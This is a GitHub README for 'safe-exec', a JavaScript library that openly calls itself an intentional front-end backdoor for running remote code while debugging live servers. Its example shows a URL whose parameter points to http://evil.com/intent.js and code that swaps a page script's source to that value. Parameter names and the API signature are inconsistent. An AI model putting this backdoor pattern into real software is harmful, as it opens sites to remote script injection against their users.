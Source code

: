# safe-exec

[![Build Status](https://travis-ci.org/pori/safe-exec.svg?branch=master)](https://travis-ci.org/pori/safe-exec)
[![npm](https://img.shields.io/npm/v/npm.svg)](https://www.npmjs.com/package/safe-exec)
[![Bower](https://img.shields.io/bower/v/bootstrap.svg)](https://github.com/pori/safe-exec)

Controlled remote code execution. Great for debugging on a live server. Extremely dangerous for everything else.

Uses RSA key pairs.

# Installation

Via [npm](https://www.npmjs.com/package/safe-exec):

```sh
npm install safe-exec
```

Via Bower:

```sh
bower install safe-exec
```

# Test

```sh
make test
```

# Example

Visit page with very some specific query parameters:

* `publicKey` - plain text passphrase. _WARNING: Persisted in session._
* `message` - _optional_ value of any kind.

```
http://example.com?privateKey=foobar&message=http://evil.com/intent.js
```

Then somewhere in your code:

```js
const success = (message) => {
  let victim = document.querySelector('script[src="foobar.js"]');

  victim.setAttribute('src', message);
};

const failure = (error) => {
  console.log(error);
};

exec(location.search, 'somereallylongcipher', sessionStorage, success, failure);
```

# FAQ

## _Wow this is a great idea! Should I use this in production?_

You should *never* use this in a production environment. This library creates an intentional backdoor for your front-end, which is a huge security risk.

## _Why would you intentionally build a backdoor?_

This is useful for environments that are difficult replicate on your local machine. It helps to speed up development and debugging.

# API

## exec(search, publicKey, sessionStorage, cb) 	&rarr; boolean

Executes code if a valid public/private key pair is present.

* `search` - should just be `window.location.search`.
* `publicKey` - any valid RSA public key.
* `sessionStorage` - pass a reference to DOM `sessionStorage` to persist execution across session.
* `success` - callback `message => ` where code execution is defined.
* `error` - callback `error => ` giving the object where the error occurred.

Returns `true` on success and `false` on failure.

# License

MIT

---

> [pori.io](http://pori.io) &nbsp;&middot;&nbsp;
> GitHub [@pori](https://github.com/pori) &nbsp;&middot;&nbsp;
> Twitter [@pori_alex](https://twitter.com/pori_alex)
